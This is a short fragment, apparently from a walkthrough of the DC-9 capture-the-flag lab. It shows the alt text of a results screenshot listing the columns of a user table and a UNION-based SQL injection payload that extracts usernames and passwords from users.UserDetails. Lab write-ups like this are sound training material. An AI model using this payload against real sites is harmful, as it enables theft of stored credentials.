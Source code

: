 <img src="DC-9/media/image13.png" style="width:2.29167in;height:6.41667in" alt="Search results Name: 2 3 Position: 4 Phone No: id Email: 6 ID: 1 Name: 2 3 Position: 4 Phone No: firstname Email: 6 Name: 2 3 Position: 4 Phone No: lastname Email: 6 Name: 2 3 Position: 4 Phone No: username E-mail: 6 Name: 2 3 Position: 4 Phone No: password Email: 6 Name: 2 3 Position: 4 Phone No: reg_date Email: 6 " />

mary' union all select 1,2,3,concat(username),concat(password),6 FROM users.UserDetails -- -
